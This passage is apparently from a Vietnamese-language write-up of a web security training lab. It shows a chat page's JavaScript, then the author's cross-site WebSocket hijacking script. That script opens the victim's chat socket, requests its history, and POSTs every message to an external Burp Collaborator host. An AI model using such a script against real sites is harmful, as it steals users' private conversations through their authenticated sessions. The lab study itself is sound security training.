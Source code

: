 ```javascript
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        webSocket.send(JSON.stringify(object));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }
})();
```

- Tôi đã nghĩ cách làm sao có thể lấy nội dung chat bot gửi về cho mình. Và tôi đã thử viết một script như sau:

```javascript
<script>
    var ws = new WebSocket('wss://0ae500d5033d7b26c305897c00990069.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://c4h1s9l1is2n6jwkewf4ukyprgxalz.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![](./img_csrf/csrf-8.png)
